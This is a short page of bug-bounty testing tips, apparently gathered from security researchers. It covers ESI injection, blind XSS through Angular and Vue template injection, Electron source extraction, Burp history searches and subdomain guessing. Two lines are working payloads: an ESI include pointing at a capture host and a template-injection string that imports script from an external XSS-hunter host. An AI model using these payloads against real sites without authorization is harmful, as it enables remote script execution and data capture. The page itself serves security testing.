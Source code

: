 Got XSS on a site that uses caching? Try upgrading that to SSRF through Edge Side Include Injection with this payload:

`<esi:include src="http://yoursite.com/capture" />`

Use it to bypass cookie restrictions, XSS filters & more!

Credit: @georgeomnet

---

### Blind XSS in JS frameworks:

Testing applications using <span style="color:red">Angular</span> or <span style="color:red">Vue.js</span>? Don't forget to wrap your build XSS payloads in a template injection payload, e.g.:

`{{constructor.constructor('import("https://jr0ch17.xss.ht")')()}}`

Not a lot of people test this!

Credit: @JR0ch17

---

### Get source code of Electron apps:

When working on Electron apps, try decompiling them with this command:

`asar extract app.asar <DEST FOLDER>`

It gets a lot easier to hack apps with their source code!

Credit: @spaceraccoonsec

---

### Burp's HTTP History:

Encounter an odd ID or API?
Always do a search in your Burp History. It might be used elsewhere!

![INT3](../../../_resources/INT3.png)

Credit: @alxbrsn

---

### Guessing Subdomains:

Run subdomain discovery on domains owned by the target company but out-of-scope, use the result as a subdomain wordlist for in-scope domains.
